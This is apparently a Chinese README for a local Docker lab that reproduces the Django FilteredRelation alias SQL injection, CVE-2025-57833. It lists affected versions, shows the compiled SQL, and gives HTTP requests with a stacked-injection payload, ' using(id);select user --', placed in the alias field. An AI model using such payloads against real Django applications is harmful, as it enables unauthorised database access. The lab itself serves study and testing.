



# Django FilteredRelation Alias SQL注入漏洞(CVE-2025-57833)
Django时隔一年爆出来的SQL注入漏洞，大概一看大概是别名引起的注入（**毕竟别名是无法预编译的**）

该漏洞影响 Django 框架中的 `FilteredRelation` 功能，当使用 `QuerySet.annotate()` 或 `QuerySet.alias() `方法，并通过 Python 的字典扩展 (**kwargs) 提供列别名时，存在 SQL 注入风险。这是由于对字典键（即列别名）未进行充分验证，导致攻击者可构造恶意字典注入不受限制的 SQL 语句

该漏洞的影响范围为

+ Django 4.2 之前的 4.2.24 版本
+ Django 5.1 之前的 5.1.12 版本
+ Django 5.2 之前的 5.2.6 版本

## 环境启动
执行以下命令启动漏洞环境

```
docker compose up -d
```

服务器启动后访问http://localhost:8085


## 漏洞复现
访问/book/search接口，正常去访问

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":"XXX","author":"Bob"}
```




此时django orm底层编译出来的sql为

```sql
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author" XXX ON ("vuln_book"."author_id" = XXX."id" AND (XXX."name" = Bob)) WHERE XXX."id" > 0
```

可以看到将创建了一个vuln_author表的别名XXX，基于上述补丁分析可知当前没有对XXX进行过滤，所以对其进行注入。

直接使用堆叠注入由于之前的第一个sql不合法并不会执行到第二个sql

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":"XXX;select user --","author":"Bob"}
```



所以需要先使得第一个语句合法，此处由于是关联关系，所以直接使用using语法

```
POST /book/search HTTP/1.1
Host: localhost:8085
Content-Type: application/json

{"alias":" using(id);select user --","author":"Bob"}
```



至此注入成功，查到了数据库的执行用户为postgres，此时底层编译成功的sql语句为

```sql
SELECT "vuln_book"."id", "vuln_book"."title", "vuln_book"."author_id" FROM "vuln_book" INNER JOIN "vuln_author"  using(id);select user -- ON ("vuln_book"."author_id" =  using(id);select user --."id" AND ( using(id);select user --."name" = Bob)) WHERE  using(id);select user --."id" > 0
```

## 参考
 - https://xz.aliyun.com/news/19236
 - https://mp.weixin.qq.com/s/e2FgAk2odugNH9K8_kDsAg
 - https://nvd.nist.gov/vuln/detail/CVE-2025-57833
 - https://docs.djangoproject.com/en/dev/releases/security
 - https://groups.google.com/g/django-announce
